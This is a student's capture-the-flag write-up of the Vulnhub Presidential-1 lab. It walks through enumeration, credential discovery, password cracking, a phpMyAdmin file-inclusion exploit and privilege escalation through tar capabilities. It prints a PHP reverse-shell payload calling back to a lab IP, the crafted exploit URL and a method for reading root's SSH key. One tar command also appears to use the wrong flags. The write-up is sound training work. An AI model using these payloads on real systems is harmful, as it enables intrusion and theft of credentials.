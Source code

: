 # Report Cybersecurity : Presidential Hacking
Simone Cossaro IN2000201

## Introduction

This report presents the steps taken to solve the Vulnhub CTF (Capture the Flag) challange called Presidential-1. 

The attack was carried out following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

In the presented scenario the US state is developing the registration website for the presidential elections and wants to test the security of the server before the website and registration system are launched. One of the political parties is concerned that the other political party is going to perform electoral fraud by hacking into the registration system and falsifying the votes.

The goal of the challenge is to gain root access to the server.

## Tools

VirtualBox is the tool needed for this challenge to run the following two virtual machines:
* the Presidential VM available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
The two virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. The shell command `netdiscover` automates the process of discovering live hosts on a network. Executing it will first allow us to find out if the presidential machine is connected to the network and if so what its IP address is. 

Once the IP address of the machine has been determined, we proceed by trying to identify the services and open ports and the software versions on it. The `nmap` command allows us to do this.

![Steps of recognition](images/reconnaissance.png)  

The scan shows that the machine is running a web service on port 80 with http protocol and a remote shell on port 2082 with ssh protocol.

## Enumeration

By visiting the main page of the web service on port 80, you will find an email address at the bottom (contact@votenow.local). This way we get a domain name: votenow.local.
It's possible to associate the domain name with the IP address by adding a line to the /etc/hosts file.

In this enumeration phase, the use of Gobuster, a tool for scanning directories and files on web servers, is essential. It is used to locate hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but may still be accessible.
The gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist such as potential directory, file, subdomain, etc., until it finds valid resources or runs out of options.

![Steps of enumeration](images/enumeration.png)  

A config.php.bak file was detected. Usually these files contain a backup copy of the original config.php file. It in turn contains configuration information that may be important.
In fact, the file contains the user's credentials which could prove useful later.

## Exploiting

Using Gobuster, this time with the vhost option, subdomains can be found. With the dictionary used (/dirbuster/wordlists/directory-list-2.3-medium.txt) a single subdomain was found: datasafe.votenow.local.
On the web page that is obtained by connecting to the subdomain, there is an access panel to "phpMyAdmin". By entering the credentials obtained previously it is possible to log in and by navigating the page you can access a SQL database containing the hash of the password of an admin user.

The hash alone cannot be used. John the Ripper is a tool to use to crack the password. With the famous rockyou dictionary you can force the password corresponding to the hash, which turns out to be Stella.

Browsing the page another thing you can easily notice is that the version of phpMyAdmin is old. Searchsploit is a tool that can be used to search for known exploits and vulnerabilities in different versions of software and operating systems.
It turns out there are three vulnerabilities, one of which has command execution as impact. Searchsploit can give us more information about this vulnerability and how it can be exploited.
To exploit this vulnerability it is necessary to:
1) be authenticated
2) get the phpMyAdmin cookie
3) run a SQL query
4) edit the URL accurately.
Authentication was done with the credentials obtained previously.
The phpMyAdmin cookie can be obtained by using the browser inspector and seeing what the value of the cookie named phpMyAdmin is.
On the web page we are allowed to execute SQL queries.
The normal functioning of the web application does not allow the interpretation and execution of code inserted in the backticks. However, by carefully structuring the URL and inserting a php script between backticks into a SQL query, it is possible to obtain the execution of the script.
The URL must have the following format:
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/ php/session/sess_{cookieValue}
where {cookieValue} is the cookie value of a current session.

By listening to a netcat listener on port 443 and then injecting a SQL query like this:
select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'
and by structuring the URL in the way illustrated, you obtain a reverse shell on the presidential machine.

![Exploitation of the vulnerability](images/sql_vuln)

At this point you can authenticate with the admin user credentials extracted previously.

![Reverse shell connection and authentication](images/reverse_shell.png)


## Privilege Escalation

The next step is to list the capabilities associated with the available executable files with the getcap command. this way we see that we have "+EP" in the tarS binary. This binary allows us to compress any file on the system without being root. Therefore, once compressed, we will only have to decompress it to be able to read the contents of the file.
There is an id_rsa file in the /root/.ssh/ directory. This file usually contains an RSA private key used for SSH authentication. This private key is associated with a public/private key pair and is used to authenticate the user on remote servers via SSH.
By having '+ep' we can compress the “id_rsa“ file, decompress it and gain visibility to the content.

The tarS -xvf id_rsa.tar /root/.ssh/id_rsa command creates a tar archive called id_rsa.tar containing the id_rsa file present in the /root/.ssh/ directory.

The tar -xvf id_rsa.tar command, however, extracts the files from the id_rsa.tar archive.

After executing these two commands, the id_rsa file can be read.

Now having the RSA private key, we can remotely connect to the shell on the presidential machine via the ssh protocol.
